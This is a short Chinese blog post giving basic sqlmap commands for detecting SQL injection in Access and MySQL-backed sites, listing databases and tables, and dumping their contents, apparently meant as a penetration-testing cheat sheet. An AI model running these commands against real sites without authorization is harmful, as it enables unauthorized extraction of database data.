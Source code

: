 ```yaml
---
layout:     post
title:      SQLMAP
subtitle:   SQLMAP基本使用
date:       2019-04-28
author:     By Oxof
header-img: img/zhelong.jpg
catalog:    true
tags:
    - 安全工具
    -渗透测试
---
```




access数据库注入
sqlmap -u  "URL?id=1"      //检测注入
sqlmap -u "url" --tables        //猜表名
sqlmap -u "url" -T 表名 --dump     //猜表名下的数据
sqlmap -u “url”-T 表名 -C “列名，列名” --dump    //猜表名下的列名内容



mysql注入

sqlmap -u  "URL?id=1"    //检测注入
sqlmap -u "URL?id=1" --dbs     //查看当前网站数据库
sqlmap -u "URL?id=1" --current-db   //查看当前网站使用数据库
sqlmap -u "URL?id=1" -D 数据库名 --dump
sqlmap -u "URL?id=1" -D 数据库名 -T 表名 --dump
